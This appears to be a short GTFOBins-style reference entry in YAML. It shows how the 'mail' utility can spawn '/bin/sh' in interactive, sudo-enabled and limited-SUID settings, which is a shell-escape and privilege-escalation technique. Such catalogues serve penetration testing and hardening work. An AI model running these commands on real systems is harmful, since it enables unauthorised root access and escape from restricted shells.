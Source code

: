 ```yaml
---
functions:
  execute-interactive:
    - code: |
        mail -f /etc/hosts
        !/bin/sh
  sudo-enabled:
    - code: |
        sudo mail -f /etc/hosts
        !/bin/sh
  suid-limited:
    - code: |
        ./mail -f /etc/hosts
        !/bin/sh
---
```

